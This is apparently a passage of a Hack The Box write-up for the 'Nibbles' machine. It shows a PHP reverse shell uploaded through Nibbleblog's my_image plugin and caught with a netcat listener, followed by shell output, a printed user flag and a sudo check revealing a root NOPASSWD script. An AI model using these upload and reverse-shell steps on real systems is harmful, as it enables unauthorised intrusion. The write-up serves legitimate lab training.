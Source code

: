 http://nibbles.htb/nibbleblog/admin.php?controller=plugins&action=config&plugin=my_image

![HTB Nibbles PHP Reverse Shell Upload](~/assets/images/htb-nibbles-php-reverse-shell-upload.png)

Click "Configure" under my-images plugin to get upload page.

![HTB - Nibbles - Upload Shell](~/assets/images/htb-nibbles-upload-page.png)

Now once the shell is uploaded ( example image.php), keep netcat listner ready and browse the reverseshell at - http://nibbles.htb/nibbleblog/content/private/plugins/my_image/image.php/my_image/image.php

and we get a shell.

```bash
┌──(abhinav㉿ETHICALHACKX)-[~]
└─$ nc -nlvp 7777
listening on [any] 7777 ...
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.75] 46192
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 06:55:16 up  7:10,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=1001(nibbler) gid=1001(nibbler) groups=1001(nibbler)
$ whoami
nibbler
$ uname -a
Linux Nibbles 4.4.0-104-generic #127-Ubuntu SMP Mon Dec 11 12:16:42 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
$ 
```



### User Flag

Getting the user flag
```bash
$ ls /home
nibbler
$ cat /home/nibbler/user.txt
903ded9d1245092bff70d64505fe15fe
$ 
```



### Privilege Escalation

Let us check what privilleges we have.
```bash
$ sudo -l
Matching Defaults entries for nibbler on Nibbles:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User nibbler may run the following commands on Nibbles:
    (root) NOPASSWD: /home/nibbler/personal/stuff/monitor.sh
$ 
```
